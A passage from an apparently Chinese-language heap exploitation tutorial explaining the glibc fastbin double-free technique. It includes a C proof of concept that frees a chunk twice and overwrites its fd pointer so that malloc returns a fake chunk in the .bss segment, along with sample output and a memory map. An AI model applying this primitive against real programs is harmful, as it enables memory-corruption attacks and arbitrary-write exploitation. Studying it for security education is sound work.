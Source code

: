 第二次釋放`free(chunk2)`

![](./figure/fastbin_free_chunk2.png)

第三次釋放`free(chunk1)`



![](./figure/fastbin_free_chunk3.png)


注意因爲 chunk1 被再次釋放因此其 fd 值不再爲 0 而是指向 chunk2，這時如果我們可以控制 chunk1 的內容，便可以寫入其 fd 指針從而實現在我們想要的任意地址分配 fastbin 塊。
下面這個示例演示了這一點，首先跟前面一樣構造 main_arena=>chunk1=>chun2=>chunk1的鏈表。之後第一次調用 malloc 返回 chunk1 之後修改 chunk1 的 fd 指針指向 bss 段上的 bss_chunk，之後我們可以看到 fastbin 會把堆塊分配到這裏。

```
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;
} CHUNK,*PCHUNK;

CHUNK bss_chunk;

int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    void *chunk_a,*chunk_b;

    bss_chunk.size=0x21;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);

    chunk_a=malloc(0x10);
    *(long long *)chunk_a=&bss_chunk;
    malloc(0x10);
    malloc(0x10);
    chunk_b=malloc(0x10);
    printf("%p",chunk_b);
    return 0;
}
```
在我的系統上 chunk_b 輸出的值會是 0x601090，這個值位於bss段中正是我們之前設置的`CHUNK bss_chunk`
```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
```